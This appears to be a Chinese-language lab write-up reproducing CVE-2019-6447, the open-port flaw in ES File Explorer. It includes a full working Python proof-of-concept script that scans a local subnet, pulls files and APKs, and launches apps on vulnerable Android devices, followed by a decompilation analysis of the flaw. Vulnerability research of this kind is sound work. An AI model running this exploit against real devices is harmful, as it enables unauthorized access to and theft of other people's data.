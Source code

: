 # CVE-2019-6447 ES文件管理器漏洞复现

> ES文件管理器是一个很常用的文件管理器，主要的利用就是利用了该软件运行之后开启了TCP 59777端口，未关闭导致的可以通过HTTP协议POST请求接受JSON数据，然后可以进行解析执行返回的结构的一个漏洞。

## 环境

- windows10
- IDEA
- JDK 1.8.0_201
- Genymotion安卓模拟器管理
- Google Galaxy Nexus 4.1-API 16的安卓模拟器（用来验证与复现漏洞）
- APKTool（用来分析apk源码）
- ES文件管理器 4.1.9.4版本（这个之前的应该都可以，但是我没有都进行复现）

![1558684567145](https://github.com/sunSUNQ/Java_learning/raw/master/CVE-2019-6447_ESFileExplorer/image/1558684567145.png)

- 配置中`ip`地址来源，将模拟器配置安装好之后，命令行输入`adb  devices` 就可以看到`ip`地址了。

## 攻击效果

- 可以获取到同一网段内安卓终端的所有APP信息

![1558685097087](https://github.com/sunSUNQ/Java_learning/raw/master/CVE-2019-6447_ESFileExplorer/image/1558685097087.png)

![1558684867659](https://github.com/sunSUNQ/Java_learning/raw/master/CVE-2019-6447_ESFileExplorer/image/1558684867659.png)

- 可以在安卓终端打开任意APP

![1558684938285](https://github.com/sunSUNQ/Java_learning/raw/master/CVE-2019-6447_ESFileExplorer/image/1558684938285.png)

![1558684979911](https://github.com/sunSUNQ/Java_learning/raw/master/CVE-2019-6447_ESFileExplorer/image/1558684979911.png)

- 相当于获取到了一定的权限可以进行很多恶意的操作，是大神`fs0c131y`写的[POC代码](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln)

```
import json
import optparse
import requests
import sys
from socket import *

verbose = True

def sanitize_json(json):
    json = json.replace("\'", "\"")
    json = json.split('[')[1].split(']')[0]
    json = json[0:len(json)-6] + "}"
    return json

def get_file(addr, filepath):

    if verbose:
        print('[*] Getting file: ' + filepath + '\n\tfrom: ' + addr)
    session = requests.Session()
    headers = {"Content-Type": "application/json"}
    address = 'http://' + addr + ':59777' + filepath
    filename = filepath.rsplit('/', 1)[1]
    resp = session.get(address, headers=headers, verify=False)

    if verbose:
        print('[*] Server responded with: ' + str(resp.status_code))
    if resp and resp.status_code == 200:
        if verbose:
            print('[*] Writing to file: ' + filename)
        with open(filename, 'wb') as f:
            f.write(resp.content)

def execute_cmd(addr, cmd, package):

    if verbose:
        print('[*] Executing command: ' + cmd + ' on ' + addr)
    session = requests.Session()
    headers = {"Content-Type": "application/json"}
    address = 'http://' + addr + ':59777'

    if package != '':
        data = '{ "command":' + cmd + ', "appPackageName":' + package + ' }'
    else:
        data = '{ "command":' + cmd + ' }'
    resp = session.post(address, headers=headers, data=data, verify=False)

    if verbose:
        print('[*] Server responded with: ' + str(resp.status_code))
    if "NameNotFoundException" in resp.text:
        print('[!] Package \'' + package + '\' not found!')
        return
    if cmd not in ('getDeviceInfo', 'appLaunch', 'listAppsSdcard', 'listVideos', 'listFiles'):
        text = sanitize_json(resp.text)
    else:
        text = resp.text

    if resp and resp.status_code == 200:
        if cmd == 'getAppThumbnail': 
            if verbose:
                print('[*] Getting app thumbnail: ' + package)
            with open(package + ".jpg", 'wb') as f:
                f.write(resp.content)
        elif cmd == 'appPull':
            if verbose:
                print('[*] Pulling app: ' + package)
            with open(package + ".apk", 'wb') as f:
                f.write(resp.content)
        else:
            print(text)

def is_up(addr):
    s = socket(AF_INET, SOCK_STREAM)
    s.settimeout(1)
    if not s.connect_ex((addr, 59777)):
        s.close()
        return 1
    else:
        s.close()

def show_available_cmds():
    print('')
    print('######################')
    print('# Available Commands #')
    print('######################')
    print('')
    print('listFiles: List all the files')
    print('listPics: List all the pictures')
    print('listVideos: List all the videos')
    print('listAudios: List all the audio files')
    print('listApps: List all the apps installed')
    print('listAppsSystem: List all the system apps')
    print('listAppsPhone: List all the phone apps')
    print('listAppsSdcard: List all the apk files in the sdcard')
    print('listAppsAll: List all the apps installed (system apps included)')
    print('getDeviceInfo: Get device info. Package name parameter is needed')
    print('appPull: Pull an app from the device')
    print('appLaunch: Launch an app. Package name parameter is needed')
    print('getAppThumbnail: Get the icon of an app. Package name parameter is needed')
    print('')


def set_up_menu():
    parser = optparse.OptionParser()
    parser.add_option('-g', '--get-file',action="store", dest="filepath",help="Get file path", default="")
    parser.add_option('-c', '--cmd',action="store", dest="cmd",help="Command to execute", default="")
    parser.add_option('-p', '--pkg',action="store", dest="package",help="Package name", default="")
    parser.add_option('--ip', '--host',action="store", dest="host", help="Target host IP", default="")
    parser.add_option('-n', '--network',action="store", dest="network", help="Network to scan", default="192.168.0.")
    parser.add_option('-v', '--verbose', action="store_true", dest="verb", help="Loud stdout")
    return parser.parse_args()

def main():
    options, _ = set_up_menu()
    verbose = options.verb

    if len(sys.argv) > 1 and sys.argv[1] == 'list':
        show_available_cmds()
    elif options.filepath != '' or options.cmd != '':
        def scan_host(addr):
            if verbose:
                print('[*] Checking address: ' + addr)
            if is_up(addr):
                if verbose:
                    print('[+] Address is up: ' + addr)
                if options.filepath != '':
                    get_file(addr, options.filepath)
                elif options.cmd != '':
                    execute_cmd(addr, options.cmd, options.package)

        if options.host != '':
            scan_host(options.host)
        else:
            for ip in range(0, 255):
                scan_host(options.network + str(ip))
    else:
        print('Usage:')
        print('- python3 poc.py list')
        print('- python3 poc.py --get-file [filepath]')
        print('- python3 poc.py --cmd [cmd]')
        print('- python3 poc.py --cmd [cmd] --host [target_host]')
        print('- python3 poc.py --cmd [cmd] --network [network]')
        print('- python3 poc.py --cmd [cmd] --pkg [package_name]')
        print('- python3 poc.py --verbose --cmd [cmd] --pkg [package_name]')

if __name__ == '__main__':

    main()
```

## 分析过程

- 先将`apk`文件解压，可以看到多个`dex`文件。

  ![1558685931706](https://github.com/sunSUNQ/Java_learning/raw/master/CVE-2019-6447_ESFileExplorer/image/1558685931706.png)

- 使用`jadx-gui`逐个打开`dex`文件，进行反编译。

  ![1558686949557](https://github.com/sunSUNQ/Java_learning/raw/master/CVE-2019-6447_ESFileExplorer/image/1558686949557.png)

- 使用字符串搜索关键字`command`，看到关键的位置。`\com\estrongs\android\f\a.class` 并且里边可以看到允许很多的`command`命令，例如`listAppsAll`、`getDeviceInfo`等等。

  ![1558687062762](https://github.com/sunSUNQ/Java_learning/raw/master/CVE-2019-6447_ESFileExplorer/image/1558687062762.png)

  ![1558687304614](https://github.com/sunSUNQ/Java_learning/raw/master/CVE-2019-6447_ESFileExplorer/image/1558687304614.png)

- 以`appLaunch`命令为例分析，如果`cmd`接收到`appLaunch`命令，就会返回`a(jSONObject)`,查看一下`a`函数的源码。

  ![1558687542252](https://github.com/sunSUNQ/Java_learning/raw/master/CVE-2019-6447_ESFileExplorer/image/1558687542252.png)

- 就是将从`json`串中找到`app`的包名，然后直接通过`startActivity`启动程序。

## 总结

由于对于传入的数据没有进行严格的校验产生的问题。修补过后的也是将传入的数据进行了校验，使得攻击者无法执行进一步的恶意操作。





## 参考链接

- [ES文件浏览器 CVE-2019-6447 高危漏洞复现](https://www.52pojie.cn/thread-856993-1-1.html)
